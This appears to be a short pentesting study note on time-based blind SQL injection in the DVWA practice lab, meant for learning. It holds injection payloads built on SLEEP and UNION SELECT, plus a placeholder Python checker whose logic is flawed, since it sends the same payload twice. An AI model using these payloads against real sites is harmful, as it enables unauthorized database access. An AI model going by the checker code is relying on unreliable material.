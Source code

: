 # Time-Based Blind Query SQL Injection

Search Tag: #blind-sql-injection #dvwa

TODO: Write a python script to bruteforce queries in order to automate blind SQL injection

```sql
' OR IF(1=1, SLEEP(5), 0)#
```

```sql
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

This is just for reference but will be removed once the information is filled.

```python
# Check if the response time increases when the condition is true
def time_based_blind_sql_injection(target_url, injection_payload):
    response_time_when_condition_true = send_request(target_url, injection_payload)
    sleep(5)  # Introduce a delay
    response_time_when_condition_false = send_request(target_url, injection_payload)

    if response_time_when_condition_true > response_time_when_condition_false:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' AND IF(1=1, SLEEP(5), 0) --"

result = time_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

---
## References

- [Learning Web Pentesting With DVWA Part 3: Blind SQL Injection](http://moinkhans.blogspot.com/2020/03/learning-web-pentesting-with-dvwa-part_28.html)